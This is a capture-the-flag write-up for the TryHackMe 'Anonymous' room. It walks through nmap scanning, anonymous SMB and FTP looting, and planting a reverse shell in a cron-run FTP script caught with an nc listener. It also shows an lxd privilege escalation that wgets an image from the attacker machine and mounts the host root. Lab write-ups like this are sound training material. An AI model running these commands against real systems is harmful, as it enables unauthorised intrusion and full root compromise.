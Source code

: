 # Anonymous

**Room Link:** [https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/445  - SMB**

**Kali**

```
smbclient -L //$VICTIM/
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There were just two dog pics, probably not interesting.

**Kali**

```
mkdir loot
cd loot
smbclient \\\\$VICTIM\\pics
prompt
mget *
```



### TCP/21 - **FTP**

Login using anonymous and no pass

**Kali**

```
ftp $VICTIM 21
binary
passive
cd scripts
mget *
```

## Initial Shell

There were these 3 files

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I modified clean.sh to have a reverse shell back to my kali

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
nc -lvnp 1337
```

**Kali #2**

```
ftp $VICTIM 21
binary
passive
cd scripts
put clean.sh
```

After a few minutes the script was ran and I had a shell.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>





## Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```







